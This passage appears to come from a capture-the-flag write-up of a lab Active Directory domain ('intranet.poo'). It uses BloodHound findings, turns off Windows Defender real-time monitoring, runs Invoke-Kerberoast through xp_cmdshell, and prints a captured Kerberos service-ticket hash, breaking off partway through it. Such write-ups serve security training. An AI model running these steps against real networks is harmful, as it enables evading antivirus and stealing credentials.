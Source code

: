 

I'll download the file, and load it into BloodHound. If I run the search
"Shortest Paths to Domain Admin from Kerberoastable Users", I can see
that P00_ADM@INTRANET.POO is a member of P00 HELP DESK@INTRANET.POO
which has GenericAll over DOMAIN ADMINS@INTRANET.POO:

![](/img/image-20200606143224437.png)

### Kerberoast

#### Invoke-Kerberoast

I'll grab [a
copy](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
of `Invoke-Kerberoast.ps1` and upload it over the WinRM shell. As I'll
be running stuff that might be blocked by defender, I'll turn that off:



    *Evil-WinRM* PS C:\programdata> Set-MpPreference -DisableRealtimeMonitoring $true



Just like with SharpHound, I'll run it from the SQL shell:



    SQL> xp_cmdshell powershell -c import-module c:\programdata\invoke-kerberoast.ps1; invoke-kerberoast -outputformat hashcat
    output

    --------------------------------------------------------------------------------

    NULL
    NULL
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*p00_hr$intranet.poo$HR_peoplesoft/intranet.poo:1433*$F2463BF66154BFDBEF0E6821A2CCE5
    6C$5CA58FDBF4D6DF3935D15ABDF677D8BCFA2946E7EE2BC21B623E81C9925572C281C332A7E1E8ACCB8DC014B50D4BD
    3A24AAA2D5F51CCDE2DADC993CFB115243E3E74BAEE492E6B154CB04CA942D255EDD2AC2D137651F3D4B638353FC29BE
    89CB00BB5C85F23651ADE26142E39FF827B0BB1163D5C03041D64074143F104F06248CFFE428F58E1227A02DA6EA7DF7
    CDE679FD0846627F3F4D4BCBAF60EEE6E18F578001F4F5B62CFF0B4C6A6DF12C34395F66C9714EFF139BA1D78F679B24
    A57E0C01DB0A01641AA8E5DC9CEB37817C2664DE3F677B3B41B6DB1B4A1C3A45237478D7D37780333F29A497C0DCAC76
    A1E0D4ED998DF2DE442886084F4D5A49F4CAAA524E289271343B14E5D5F8928122F6D57A7428737FA4DF63C6A64CB56C
    F1183A276DBEC2BEF30B15D214722B5E0614461D5A090DEDEA68DDF86278D781FD4023F704B319EBE2B7FDBC84EA39F8
    885B692A85701B4C5DF2721F7F70DF7862E3689AE0DC3B0067E17F43BC15C9C0E202E2B6F1C9F44B09F1A128F318220D
    091D299F081778C1B90EF9DB2C8A61793BF9ED70C22E63621EF2E8389309C5DF807B59F39F5FD23AA36ECBF425F80F0F
    C0C33011721EBF0CFA1AD57B726F6326324B8F1FCF4C6E314A84A14DF780B06EC71EAECC12E500A7F8E6C06E0E56C9D3
    03A3EB7A195C77B4055C0F1280620C4053885A93A4C789D619D1294B7206CFA3F242476143717CDF5E8B8B5FBDC6E9CF
    F1D9DAFC90605438ADEC3520A91A529A5117218877FCB89DC2A87F76999F3A4F7F4A63D64061380E817432BA8BA3B0C7
    1C3C84EB8EF02930EDCA11B008716E3A0FE6F62634CA126B6BD06AF2E015DEDCD394440B0F8744EE8BA8FC3C55F3D2D4
    3280E62511F9FEC2EBC009B90CDBBC257363613B837825CFF32A4F97B657ADE4686658B31AE48691F767B07534353F2F
    FB47F975ED6FBF38041CEECA395EDE803EF9C32F391D8DA4139F6271921F770FC3997BD4EEB9B8C8C14E10D14232C2C4
    0C6D3540A92912733A464DB22CFF699E7881A4ABDA30916C546D1B54B015E1347F92DDE8301E5ADD9F07535C4312DF73